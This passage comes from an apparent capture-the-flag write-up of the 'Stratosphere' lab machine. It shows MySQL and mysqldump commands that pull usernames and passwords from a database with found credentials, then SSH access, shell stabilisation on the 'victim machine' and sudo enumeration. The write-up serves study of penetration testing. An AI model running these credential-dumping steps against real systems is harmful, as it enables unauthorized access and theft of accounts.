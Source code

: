 However, if I use `mysql` to try to list the databases, I can connect with the credentials I found. I search the databases, then by tables and lastly those columns that I think may have relevant information. I find the credentials of the user **richard**. I can also have the same results with `mysqlshow`. I manage to connect successfully by **SSH**, I only must make a console treatment to have a better performance of my activities in the victim machine.

```bash
mysql -uadmin -padmin -e "show databases"
mysql -uadmin -padmin -e "use users; show tables"
mysql -uadmin -padmin -e "use users; describe accounts"
mysql -uadmin -padmin -e "use users; select password, username from accounts"

mysqlshow -uadmin -padmin
mysqlshow -uadmin -padmin users
mysqlshow -uadmin -padmin users accounts
mysqldump -uadmin --password=admin --no-data users
mysqldump -uadmin --password=admin --single-transaction --all-data
```

> **Victime Machine**

```bash
script /dev/null -c bash      [Ctrl^z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128
```

<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_24.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_25.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_26.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_27.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_28.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now I can read the contents of the first unprivileged user flag and run the first basic recognition commands of the **Linux** machine, I also find the **Codename**, which matches what I found with **Launchpad**, **Buster**. Among all, I found with `sudo -l`, a script written in `python` that the user can run as the `root` user, this may prove to be a possible attack vector. I run it to test its purpose but it only shows a MD5 HASH. With **[Crackstation](https://crackstation.net/){:target="_blank"}** I get its value, but it doesn't seem to be important at the moment.
